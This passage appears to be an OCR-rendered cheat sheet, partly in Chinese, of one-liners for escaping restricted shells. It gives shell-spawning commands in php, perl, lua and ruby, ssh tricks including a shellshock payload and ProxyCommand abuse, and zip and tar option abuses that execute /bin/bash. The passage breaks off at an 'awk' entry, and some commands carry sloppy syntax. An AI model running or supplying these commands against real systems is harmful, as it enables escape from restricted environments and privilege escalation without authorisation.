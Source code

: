 php：

```php
php -a then exec("sh -i");
```

perl：

```perl
perl -e 'exec "/bin/sh";'
```

lua：

```lua
os.execute('/bin/sh').
```

ruby：

```ruby
exec "/bin/sh"
```

### 最新技术

ssh:

```bash
ssh username@IP - t "/bin/sh" or "/bin/bash"
```

ssh2:

```bash
ssh username@IP -t "bash --noprofile"
```

ssh3:

```bash
ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
```

ssh4:

```bash
ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
```

ZIP:

```bash
zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```

tar:

```bash
tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

awk:
